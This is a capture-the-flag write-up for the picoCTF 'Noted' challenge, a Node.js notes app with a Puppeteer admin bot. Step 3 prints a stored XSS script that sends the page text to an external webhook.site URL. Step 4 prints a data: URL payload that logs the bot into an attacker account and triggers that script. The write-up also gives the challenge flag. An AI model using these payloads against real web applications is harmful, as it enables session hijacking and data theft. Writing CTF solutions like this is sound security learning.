 # Walkthrough for picoCTF "Noted" Challenge
I have finished the "Noted" Challenge (Hard level) from picoCTF, and here is my walkthrough for you:
#
# Prerequisites and Setup
- Access the challenge site at `http://saturn.picoctf.net:60244/` (or the equivalent hosted instance during the event).
- Download and review the source code from the challenge attachments or GitHub mirrors (e.g., a tar.gz containing the Node.js app).
- The app uses Fastify (web framework), EJS (templating), SQLite3 (DB), and Puppeteer (headless Chrome automation).
- Set up a webhook receiver like https://webhook.site/ to capture exfiltrated data (create a unique URL, e.g., `https://webhook.site/#!/d84a226b-8c34-494f-b6d4-6022aded5b82`). Tools like ngrok or requestbin.com work too.
- No other special setup is needed; the bot's browser has internet access despite the challenge description.
#
## Step 1: Analyze the Source Code and Identify Vulnerabilities
- Unpack the source and check `package.json` for dependencies:
  ```text
  "dependencies": {
  "argon2": "^0.28.3",
  "ejs": "^3.1.6",
  "fastify": "^3.25.3",
  "fastify-csrf": "^3.1.0",
  "fastify-formbody": "^5.2.0",
  "fastify-secure-session": "^3.0.0",
  "point-of-view": "^5.0.0",
  "puppeteer": "^13.0.1",
  "sequelize": "^6.12.5",
  "sqlite3": "^5.0.2"
  }
  ```
  This confirms it's a Node.js app with EJS templating and Puppeteer.

- In `views/notes.ejs`, look for the note rendering: It uses `<%- note.body %>`, which is an *unescaped* EJS output (per EJS docs). This enables HTML/JS injection on the `/notes` page.
- Test the XSS: Log in, create a note with body `<script>alert(1)</script>`, then visit `/notes`. An alert will pops up, which reflected self-XSS confirmed.
- Review `report.js` (the report endpoint handler):
   - The bot creates a random account.
   - Navigates to a new note page.
   - Posts a note with the flag as content.
   - Goes to `about:blank`.
   - Closes the browser after 7.5 seconds.
- Key insight: Despite "no internet" claims by reporting a webhook URL; the bot still fetches it, proving outbound access.
#
## Step 2: Create an Attacker-Controlled Account
- On the challenge site, register an account with username `a` and password `a`.
- Log in to verify access to `/notes` and note creation.
#
## Step 3: Plant the XSS Payload in a Note
While logged in as `a:a`, create a new note with this body (injected via the unescaped EJS):
```text
<script>
if (window.location.search.includes("run_xss")) {
    window.location = "https://webhook.site/d84a226b-8c34-494f-b6d4-6022aded5b82?" + window.open("", "pico").document.body.textContent
}
</script>
```
- How it works:
   - Checks for `?run_xss` in the URL.
   - `window.open("", "pico")` reuses the existing "pico" window (avoids new-tab prompts in headless mode).
   - Grabs `textContent` from its `<body>` (which includes the flag note).
   - Redirects to your webhook with the content as a query param (exfiltrates via GET).
#
## Step 4: Craft the Report Payload to Trigger the Exploit
- The report form takes a URL. Use a data: URL to inject a full malicious HTML page into the bot's browser (bypasses scheme restrictions).
- Payload (paste into the report field and submit):
```text
data:text/html,
<form action="http://0.0.0.0:8080/login" method=POST id="login_form" target="_blank">
    <input type="text" name="username" value="a"><input type="text" name="password" value="a">
</form>
<script>
    window.open("http://0.0.0.0:8080/notes", "pico");
    setTimeout(function() {login_form.submit()}, 1000);
    setTimeout(function() {window.location="http://0.0.0.0:8080/notes?run_xss"}, 2000);
</script>
```
- Breakdown:
    - The `data:` scheme loads custom HTML directly in the browser.
    - Form auto-logs in as `a:a` in a `_blank` window (POST to `/login` sets session cookie without blocking).
    - `window.open("/notes", "pico")` loads the notes page (with flag and your XSS note) into a named window. Headless Chrome allows this without pop-up blocks.
    - After 1s: Submit login (authenticates the session).
    - After 2s total: Navigate main window to `/notes?run_xss`, triggering your payload.
    - Same-origin policy lets the script access the "pico" window's DOM via the returned WindowProxy.
- Click "Report", bot will launch, and executes this in ~2s (before 7.5s timeout).
#
## Step 5: Capture the Flag
- Watch your webhook dashboard.
- A GET request arrives shortly (`/?picoCTF{...}`).
- Extract the flag from the query param/body text.
#
# Flag
`picoCTF{p00rth0s_parl1ment_0f_p3p3gas_386f0184}`


























